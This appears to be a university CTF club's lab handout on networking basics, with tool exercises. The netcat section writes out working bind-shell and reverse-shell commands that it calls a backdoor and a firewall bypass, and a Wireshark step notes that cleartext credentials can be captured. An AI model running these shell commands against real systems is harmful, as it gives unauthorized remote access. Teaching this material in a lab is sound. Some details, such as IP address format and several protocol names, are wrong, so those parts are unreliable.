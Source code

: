#+LATEX_HEADER: \usepackage[margin=1in]{geometry}
#+author: UNO CTF
#+date:
#+title: A Networking Overview
* Networking Terms
** Host
   Any machine on a network is considered a host. Hosts can be connected either by wire or wirelessly.
** Client
   A client is a machine or program that queries or commands another. For example, when using your browser to access a website,
   your machine acts as a client, and the website's machine is the server
** Server
   A server is a machine or program that is queried or commanded by another.
** Hub
   A hub provides a direct physical connection between two or more hosts
** Switch
   A switch is a smart hub that allows for multiple distinct connections between hosts
** Router
   A router is a device that connects multiple networks together
** Firewall
   A firewall acts as a filter for traffic entering and exiting a network
** Modem
   A modem converts digital signals to analog signals for physical transport

* Scenario: Client to Server over a WAN (Wide Area Network)

  In this scenario, we describe two machines in separate spaces. In order for them to communicate, we need
  a medium, so let's use a wire. This is the first layer of the OSI model as well as the TCP/IP model. In the OSI model,
  the physical layer is responsible for defining communication mediums such as a wire. Some examples would be ethernet,
  coaxial cables, phone lines, and even electromagnetic waves (such as for Wi-Fi). In the TCP/IP model, this is the job
  of the link layer. We have a wire, but in order for them to communicate effectively, we need a communication /protocol/.
  A protocol defines rules and a process for communicating. In a phone conversation, only one person speaks at a time; the
  same is true for networking.

  In order to identify which computer is which in a local network, we need to give each a unique identifier. This is
  referred to as a /MAC address/. A MAC (Media Access Control) address is a unique 6 byte identifier given to each machine's
  network interface.

  To view your MAC address, open a terminal session and type in "=ifconfig=".

  #+CAPTION: Here is a sample image of ifconfig output for a machine with two network interfaces: ethernet and loopback.
  #+ATTR_LaTeX: :placement [H]
  [[/Users/will/Dropbox/UNO/CTF/Officer_Notes/Labs/Lab2/lab2media/ifconfig_out.png]]

  =ifconfig= is a Linux command that is used to view networking information. Here you can see information such as IP addresses,
  MAC addresses, names of network interfaces, and more. =ipconfig= on Windows
  provides most of the same information.

  Now that we have the MAC, we can send a message. In order to do so, we have to enclose the data we want to send
  in a virtual envelope and send it to an address. The envelope will contain the destination address, a source
  address, and information for error checking. In order to use an address, we need to use another layer of the OSI
  stack--this still falls in the first layer of the TCP/IP model. This is where we need the data link layer in the
  OSI stack.

  Let's try to make our network a little bigger. One person will have three hosts on their home network, and they
  want to talk with someone in another house that has three hosts in its network. Each machine has a MAC address.
  Because we have three machines on each side, we can't just use a single wire to connect two computers to each other.
  To connect three or more computers together, we need to use a switch.

  For a switch to pass messages from one host to another, it needs to know which machine is where. When a host is
  connected to an ethernet port on a switch, the switch asks the host for its MAC address, and once it receives that, it knows
  which port it can use to talk to which host--it maps an ethernet port to a MAC address. Our three computers all connected to
  one another in this fashion can be referred to as a local area network, or a /LAN/.

  We want to connect these three computers to some computers in another city. In order to connect our local network
  to theirs, we need to use a router. This is the responsibility of the network layer of both the OSI and TCP/IP
  models. In order to locate each machine, we now need another unique identifier. This is the IP (Internet Protocol)
  address. You've seen this usually as a 12 digit number separated by periods with three digits per section. If we
  refer to the =ifconfig= output, we can see this.

  Your IP address is great for a machine to remember, but a URL such as http://www.uno.edu is a human-readable dynamic
  translation of an IP address.

  The IP address is used to locate the local network that a host resides on. A router can take a message with an IP address
  and pass it on to the next router in the chain. It does this by using a routing table, which is just a table of a few IP
  ranges. A range of IPs can be assigned to a particular ethernet port on the router. If the destination falls into one of
  the router's distinct ranges, the router will send the message along out of the ethernet port for that range.
  
  Once a message finally arrives to a local network with an IP address destination, we need to know which machine at that
  network has that IP address. If each machine has a MAC, and we're using IP addresses to determine the destination, we
  need to map IP addresses to MACs. So each router maintains a table of which IP address refers to which MAC address.
  A router will have a list of local IP addresses that can be inhabited by hosts. So after the message arrives at the final router,
  if the router hasn't built the IP to MAC table, it will send out requests for the MACs of any machines that may live at one 
  of those addresses--these requests are sent to every MAC in the local network. These requests are known as =ARP= requests,
  short for Address Resolution Protocol. The table is known as an ARP cache. Once the router knows the MAC of the final IP,
  the message is transferred to its final destination.

  Layers 4 through 7 (transport to application) in the OSI model will break down and reassemble data in messages into
  smaller pieces known as frames, packets, datagrams, or similar, so they can be physically transferred.

* Networking Protocols
  There are many important protocols. Here are a few of the more common ones that we will encounter, as well as their most common
  ports if applicable:
  1. User Datagram Protocol (UDP)
  2. Transmission Control Protocol (TCP)
  3. Internet Message Control Protocol (ICMP)
  4. HyperText Transfer Protocol (Secure) (HTTP(S)): =TCP Ports 80 (HTTP) and 443 (HTTPS)=
  5. File Transfer Protocol (FTP): =TCP Port 21 for control, TCP Port 20 for data transfer=
  6. Dynamic Host Configuration Protocol (DHCP): =UDP Ports 67 and 68=
  7. Domain Name Server (DNS): =TCP and UDP Port 53=
  8. Secure Socket Layer (SSL)
  9. Secure Shell (SSH): =TCP Port 22=
  10. Remote Procedure Call (RPC) and Remote Desktop Protocol (RDP)

  From a programming standpoint, in order to form a connection to an application, we need a socket--which is just a software
  construct that implements a lot of the underlying transport mechanisms, freeing that from the programmer. There are two
  types of sockets (or connections): persistent and non-persistent. Most common is a persistent connection, TCP. TCP is a 
  reliable persistent connection protocol--it guarantees that messages arrive in order and completely. It accomplishes this
  via what is known as a three-way handshake.

  #+CAPTION: TCP three-way handshake; available at Wikimedia Commons
  #+NAME: Figure 4
  #+ATTR_LaTeX: :placement [H]
  [[/Users/will/Dropbox/UNO/CTF/Officer_Notes/Labs/Lab2/lab2media/Tcp-handshake.png]]

  Initially, the first host (or client) sends a synchronization (SYN) packet to a known port on the second host (the
  server). The server will send a synchronization acknowledgement (SYN-ACK) packet in response. Once this is received by the client, the 
  client sends an ACK packet to the server to confirm and the connection is established.

  Once a client has connected to the requested port on the server machine, it can make use of whichever service runs at that port.

  The connection can continue until one side (either the client or the server) decides to terminate the connection (or it
  may be broken abruptly). In order to tear the connection down formally, the side that initiates the teardown sends a /FIN/
  packet to the other side. Once the FIN is received, the recipient sends an /ACK FIN/ packet. When the terminating side
  responds to the ACK FIN with an acknowledgement, the connection is terminated.

  #+CAPTION: Formal TCP connection termination process; diagram by Clemente, available at Wikimedia Commons
  #+NAME: Figure 5
  #+ATTR_LaTeX: :placement [H]
  [[/Users/will/Dropbox/UNO/CTF/Officer_Notes/Labs/Lab2/lab2media/500px-TCP_CLOSE.png]]

* Common Networking Tools
** Netcat
   Netcat is a common basic tool for accessing simple TCP and UDP connections. It is often used for file transfers and 
   remote shell access.
** Nmap
   Nmap is a port scanner. It scans for open ports on machines (indicating running and available services). It can be used
   to determine what's running on which port, and is also used to assess vulnerabilities on machines.
** netstat
   Netstat is a tool that displays active ports, routing tables, open connections, and similar information on your machine.
** Wireshark
   Wireshark is a packet sniffer that can be used to view network traffic.
** whois
   Whois is a simple tool that can be used to determine information about a particular IP address, a range of address, a domain
   name, or similar. For example, if run on http://www.uno.edu (=whois uno.edu=), you can see registrar names, administrative
   contacts, DNS servers for that domain name, and similar.
** dig
   Dig is a tool for gathering information from DNS servers. It can be used to find mailservers tied to a domain name, domain names
   tied to a particular IP address, the IP address of a domain name, and similar information.
* Tool Installation
** Wireshark
*** Source Compilation
    1. Install libpcap by running the following command in your terminal: =sudo apt-get install libpcap-dev=
    2. Install bison by running the command =sudo apt-get install bison=
    3. Install flex by running the command =sudo apt-get install flex=
    4. Install g++ by running the command =sudo apt-get install g++=
    5. Install the QT graphics toolkit by running the command =sudo apt-get install qtdeclarative5-dev=
    6. Install Wireshark specific libraries by running the command =sudo apt-get install libwiretap-dev=
    7. =cd= to your Downloads folder
    8. Run the command =wget https://2.na.dl.wireshark.org/src/wireshark-2.0.2.tar.bz2=
       1. =wget= is generally used to easily download files in the terminal.
    9. Run the command =tar -xf wireshark-2.0.2.tar.bz2=
       1. tar is a utility and an archive format like zip, and bz2 is a compression algorithm/format. Here, tar is being
          used to decompress and extract the archive.
    10. Run the command =cd wireshark-2.0.2=
    11. Run the command =./configure=
	1. Configure is used to check to see if necessary system settings for installations are correct, to see if the
	   machine has the correct dependencies for the software to install and run, and similar.
    12. Run the command =make=
	1. This command is what compiles the source
    13. Run the command =sudo make install=
	1. =make install= is used to install Wireshark in your path so it can be started from the command line. =sudo=
	   is required, as many folders within the path require root access to modify. This helps prevent attacks that
	   make use of placing binaries with the same names as legitimate ones earlier in the path than the real ones
	   to gain control

*** Package Installation
    1. In your terminal, run the command =sudo apt-get install wireshark=
    2. If it requests your password, enter it now and press =[enter]=
    3. If successful, you should be able to run Wireshark from the command line by running =wireshark=

** Nmap
*** Package Installation
    1. In your terminal, run the command =sudo apt-get install nmap=
    2. If it requests your password, enter it now and press =[enter]=

* Tool Exercises
** Netcat
   Netcat is a simple network transfer program that allows you to do things such as transfer files, open shells
   on remote machines, or even accept reverse shells from remote machines in order to bypass protections such
   as firewalls. For these exercises, you need to have installed Nmap, because =ncat=, the version of Netcat
   that we're using, is bundled with Nmap.
*** File transfer
    1. Open two separate terminal sessions.
    2. On the receiving file, run the command =ncat -l 1234 > [filename]=. [filename] represents the desired save name of
       the file on that side
    3. On the sending side, type the command =cat [filename] | nc <recipient IP> 1234=
    4. This should transfer the file.
*** Listening shell
    1. Open two separate terminal sessions.
    2. On one side, run the command =ncat -l -p 1234 -e /bin/bash=
       1. This puts a running instance of bash on port 1234--this is accessible to any machine that can access port 1234
	  on that machine.
    3. On the other side, run the command =ncat [IP address of first instance of Netcat] [port]=
    4. If the connection is successful, you will see nothing, but if you type =ls= or a similar command, you should see
       output. You've connected to the shell in the other terminal, and while this was done on your local machine, this
       can work across the internet. You have created and accessed a backdoor.
*** Reverse shell
    1. Open two separate terminal sessions.
    2. On one side, run the command =ncat -l -p 1234=
       1. This session of Netcat will listen for incoming connections. Ideally, this will run on your machine.
    3. On the other side, run the command =ncat [your IP] [port] -e /bin/bash=
       1. This sends a shell to a remote Netcat listener with access to a running Bash shell. If you open the first
	  terminal you opened for this exercise, if it worked correctly, typing =ls= will list files in the current folder
	  on the machine that sent the shell to you. This is a reverse shell.

** Nmap
   1. Run the command =sudo nmap -A [IP Address]=
      1. This runs an Nmap scan on the provided IP address, polling a set of the most common ports to detect running
	 services and versions of those services, attempting to detect the OS, and other various features.
      2. =sudo= is needed for some features of Nmap such as OS fingerprinting.
** netstat
   1. Run the command =netstat -l=
      1. This command shows all listening ports on the machine--UDP, TCP, and unix sockets.
   2. Run the command =netstat -at=
      1. This command lists all listening and non-listening TCP ports.
   3. Run the command =netstat -au=
      1. This command lists all listening and non-listening UDP ports.
** Wireshark
   1. Run the command =sudo wireshark=
      1. This opens wireshark, which lets you view packets transferred to and from your machine as well as what it can
	 see on the network.
   2. Under the Start menu visible under the Capture section of the main window, select =eth0= and hit Start. While it is
      running, open a terminal and type =wget www.uno.edu=. While the uno.edu page is downloading, you will see a number
      of TCP packets (marked green) that are downloading. If you right click on one of the packets received during the
      download and hit "Follow TCP Stream", if you've selected one of the right packets, you'll see some headers and the
      source content of the UNO page.
      1. Like the UNO page, if you have access to a network downloading unencrypted files, you can retrieve the files in
	 a similar fashion. If any websites are accessed that use insecure logins such as those that accept unencrypted
	 login, you can see credentials in the clear over the network as well.

* OSI Model

  #+CAPTION: OSI Model diagram displaying the 7 layers; diagram by JB Hewitt available from Wikimedia Commons
  #+NAME: Figure 1
  #+ATTR_LaTeX: :placement [H]
  [[/Users/will/Dropbox/UNO/CTF/Officer_Notes/Labs/Lab2/lab2media/Osi-model-jb.png]]

  The OSI model is a stack-based model for application network communication. It is designed as a 7 (mostly) layer
  stack so that implementations of each layer can be easily swapped out without losing any key features or
  reliability. For example, at the physical layer, if--instead of an ethernet cable--your network is connected through
  wireless 802.11 communication, the system will generally work the same. There are some exceptions to this such as
  with the differences between TCP and UDP in the transport layer, but generally, this stack is designed to ultimately
  allow for seamless communication between applications without an unnecessary focus on its internals. The layers are
  as follows from the bottom to the top of the stack:
  1. Physical layer
  2. Data link layer
  3. Network layer
  4. Transport layer
  5. Session layer
  6. Presentation layer
  7. Application layer

* TCP/IP Model

  The TCP/IP model is a stripped down version of the OSI model that combines some of the layers. For example, the presentation
  and session layers from the OSI model can be considered combined with the application layer in the TCP/IP model, and the
  physical and data link layers of the OSI model can be viewed as combined into the link layer in the TCP/IP model.

  #+CAPTION: TCP/IP Model diagram displaying a condensed stack of 4 layers and their usage on a fairly simple network
  #+CAPTION: topology; diagram by user Kbrose available from Wikipedia
  #+NAME: Figure 2
  #+ATTR_LaTeX: :placement [H]
  [[/Users/will/Dropbox/UNO/CTF/Officer_Notes/Labs/Lab2/lab2media/IP_stack_connections.png]]

  The layers are as follows from the bottom to the top of the stack:
  1. Link layer
  2. Network layer
  3. Transport layer
  4. Application layer
